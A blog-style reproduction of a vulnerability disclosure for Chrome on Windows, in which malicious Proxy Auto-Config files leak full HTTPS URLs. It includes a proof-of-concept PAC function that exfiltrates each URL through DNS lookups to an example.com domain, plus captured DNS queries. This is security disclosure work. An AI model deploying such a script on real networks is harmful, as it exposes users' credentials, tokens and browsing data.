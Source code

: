```yaml
---
layout: post
title: Chrome - Proxy Auto-Config SSL/TLS Url Disclosure
category: bugreports
---
```


Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Chrome.

<!--more-->

*Original bug report can be viewed at [https://bugs.chromium.org/p/chromium/issues/detail?id=593759](https://bugs.chromium.org/p/chromium/issues/detail?id=593759)*

<pre class="bugreport">
Description:        Proxy Auto-Config SSL/TLS Url Disclosure
Versions Affected:  All Chrome versions on Windows
Category:           Information Disclosure
Reporter:           Alex Chapman and Paul Stone of Context Information Security

Summary:
--------
Malicious Proxy Auto-Config (PAC) files allow for the disclosure of SSL/TLS encrypted HTTPS request URLs (including full paths and query strings) from Chrome. The PAC file specifies a Javascript function, FindProxyForURL(url, host), which is called for each URL request in order to determine the required proxy for the connection. This function receives the full URL and hostname for both HTTP and HTTPS requests, which can be leaked by a malicious PAC script. This could expose credentials, tokens, search terms or any other data passed in HTTPS URL query strings to internet based attackers that would otherwise be encrypted. On Windows systems, this issue can be exploited on a default Chrome installation.

It should be noted that this issue was also identified in Android, and has been reported separately to the Android team.

Analysis:
---------
The PAC file is executed in a limited, sandboxed Javascript environment, but some functions are still available (see http://findproxyforurl.com/pac-functions/), most notably dnsResolve. This allows for the full request URL from affected clients to be leaked to an attacker's DNS server or local network hosts via LLMNR.

Since Chrome defaults to using the Windows proxy settings, including configurations picked up from Web Proxy Auto-Discovery Protocol (WPAD) this issue can be exploited by both malicious gateways and attackers based on the local network (via WPAD injection attacks).

All software that implements the PAC specification as written is affected by this issue. We have confirmed this issue in a number of browsers and operating systems. Notably however, Internet Explorer does not leak full URLs, instead passing only the protocol and hostname to the 'url' parameter of FindProxyForURL (e.g. https://www.example.com/, not https://www.example.com/index.html?foo=bar). Therefore a possible fix for this issue is to follow this same behaviour.

Proof of Concept:
-----------------
A PAC script can be crafted, as below, which will perform a DNS lookup based on the host and url parameters passed into the function:

  function FindProxyForURL(url, host){
    if (dnsResolve((url+'.example.com').replace(/[^a-z0-9_-]+/gi,'.')))
      return "DIRECT";
    return "DIRECT";
  }

This will perform DNS lookups with the encoded URLs against the example.com DNS server.

See the following example DNS captures from HTTPS requests:

  https.www.google.co.uk.webhp.sourceid.chrome-instant.ion.1.espv.2.ie.UTF-8.example.com.
  https.consent.google.com.status.continue.https.www.google.co.uk.pc.s.timestamp.1457624486.example.com.
  https.www.google.co.uk.gen_204.atyp.i.ct.cad.vet.10ahUKEwj_iOuturbLAhXlNpoKHc21DBoQsmQIDg.s.ei.ppXhVv-dGuXt6ATN67LQAQ.zx.1457624490326.example.com.
  https.safebrowsing.google.com.safebrowsing.downloads.client.googlechrome.appver.48.0.2564.116.pver.3.0.key.AIzaSyBOti4mM-6x9WDnZIjIeyEU21OpBXqWBgw.ext.0.example.com.
</pre>
